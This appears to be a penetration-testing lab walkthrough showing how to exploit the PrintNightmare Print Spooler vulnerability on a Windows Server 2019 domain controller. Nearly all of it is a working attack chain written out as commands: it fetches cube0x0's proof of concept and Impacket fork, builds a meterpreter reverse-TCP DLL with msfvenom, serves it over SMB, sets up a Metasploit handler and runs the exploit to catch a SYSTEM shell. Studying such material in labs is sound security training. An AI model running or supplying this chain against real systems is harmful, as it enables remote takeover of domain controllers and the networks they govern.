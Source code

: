 `PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems.

 Let's practice with one exploit that can allow us to gain a SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host.

---
## TL;DR

- Vulnerable **Print Spooler** (DCs included) → remote code execution as **NT AUTHORITY\SYSTEM**.
    
- Attack path here uses **cube0x0’s** PoC + his **Impacket** fork to push/load a DLL from an SMB share via **MS-RPRN**.
    
- Flow: confirm RPRN/PAR → prep DLL payload → host over SMB → start listener → trigger CVE-2021-1675 PoC → catch SYSTEM.
    

---

## Preconditions

- Domain creds with network reachability to target (DC in example).
    
- Target exposes **MS-RPRN** (Print System Remote Protocol) and **MS-PAR**.
    
- On attacker: Python3, git, Metasploit (for handler), ability to run Impacket & PoC.
    
- Note: Modern systems may be patched; PoC may fail if mitigations are present.
    

---

## Tooling Setup (Attack Host)

```bash
# PoC
git clone https://github.com/cube0x0/CVE-2021-1675.git

# Use cube0x0’s Impacket fork (required by this PoC)
pip3 uninstall -y impacket
git clone https://github.com/cube0x0/impacket
cd impacket && python3 ./setup.py install
```

---

## Enumerating for MS-RPRN
```bash
z3tssu@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

```bash
rpcdump.py @<TARGET_IP> | egrep 'MS-RPRN|MS-PAR'
```

---

## Generating a DLL Payload

After confirming the above, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=<ATTACK_IP> LPORT=8080 -f dll > backupscript.dll
```

---

## Host the Payload (SMB)

Serve the DLL from a share the target can reach.

```bash
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
# UNC path you’ll pass to the exploit:
# \\<ATTACK_IP>\CompData\backupscript.dll
```

---

## Listener (Metasploit)
Once the share is created and hosting our payload, we can use MSF to configure & start a multi handler responsible for catching the reverse shell that gets executed on the target.

```text
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <ATTACK_IP>
set LPORT 8080
run
```

---

## Exploit (cube0x0 PoC)

Notice how at the end of the command, we include the path to the share hosting our payload (`\\<ip address of attack host>\ShareName\nameofpayload.dll`). If all goes well after running the exploit, the target will access the share and execute the payload. The payload will then call back to our multi handler giving us an elevated SYSTEM shell

```bash
cd CVE-2021-1675

sudo python3 CVE-2021-1675.py \
  inlanefreight.local/forend:Klmcargo2@172.16.5.5 \
  '\\172.16.5.225\CompData\backupscript.dll'
```

- If successful, the target DC loads your DLL from the SMB share and calls back to the handler.
    
- Verify SYSTEM:
    

```text
(Meterpreter) > shell
C:\Windows\system32> whoami
nt authority\system
```

## Quick Checklist

- [ ]  Confirm MS-RPRN/MS-PAR exposed: `rpcdump.py`.
    
- [ ]  Build DLL payload: `msfvenom`.
    
- [ ]  Host DLL via SMB: `smbserver.py`.
    
- [ ]  Start handler: Metasploit multi/handler.
    
- [ ]  Run PoC with proper creds/UNC path.
    
- [ ]  Verify SYSTEM, do post-ex per scope.
    
- [ ]  Clean up artifacts and document.